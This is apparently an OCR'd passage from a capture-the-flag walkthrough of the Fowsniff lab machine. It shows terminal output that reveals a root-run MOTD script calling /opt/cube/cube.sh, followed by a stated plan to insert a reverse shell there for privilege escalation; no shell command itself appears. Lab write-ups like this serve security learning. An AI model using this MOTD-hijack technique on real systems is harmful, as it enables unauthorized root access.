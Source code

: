 ```bash
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

baksteen@fowsniff:~$ ls -la /etc/update-motd.d/
total 24
drwxr-xr-x  2 root root 4096 Mar 11  2018 .
drwxr-xr-x 87 root root 4096 Dec  9  2018 ..
-rwxr-xr-x  1 root root 1248 Mar 11  2018 00-header
-rwxr-xr-x  1 root root 1473 Mar  9  2018 10-help-text
-rwxr-xr-x  1 root root  299 Jul 22  2016 91-release-upgrade
-rwxr-xr-x  1 root root  604 Nov  5  2017 99-esm
baksteen@fowsniff:~$ cat /etc/update-motd.d/00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```

2. Let's add a basic reverse shell to us and try to invoke the MOTD through a third connection call. 
